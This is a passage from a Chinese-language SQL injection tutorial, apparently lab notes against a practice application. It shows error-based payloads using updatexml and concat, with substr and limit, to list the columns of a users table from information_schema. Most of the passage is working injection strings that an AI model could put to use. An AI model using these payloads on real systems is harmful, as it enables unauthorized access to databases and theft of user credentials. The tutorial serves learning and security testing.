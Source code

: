 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675154829207-566ac11a-630f-4a3b-bd6f-6dbbb16597c6.png)

使用下面语句查询字段名

```sql
1'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) --+
```

得到的结果如下，显示并不完整

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675154980581-d0bef242-d887-4afa-a618-9cfab4757cdc.png)

截取字符串，查看完整内容

```sql
1'and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),50) from information_schema.columns where table_name='users'),0x7e),1) --+
```

一直查询到结束，获得完整字符串为
`~user_id,first_name,last_name,user,password,avatar,last_login,failed_login~`
也可以使用limit来将字段名一个个获取

```sql
1' and updatexml(1,concat(0x7e,(
select column_name from information_schema.columns where table_name='users' limit 0,1
),0x7e),1) --+
```

查看到第一个字段名

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675299038482-ca046fea-c46b-431b-b186-eecc0dbd2141.png)

查看第二个字段名

```sql
1' and updatexml(1,concat(0x7e,(
select column_name from information_schema.columns where table_name='users' limit 1,1
),0x7e),1) --+
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675299072990-2e141fa9-08ae-43b8-874f-fa1e3fa15d97.png)
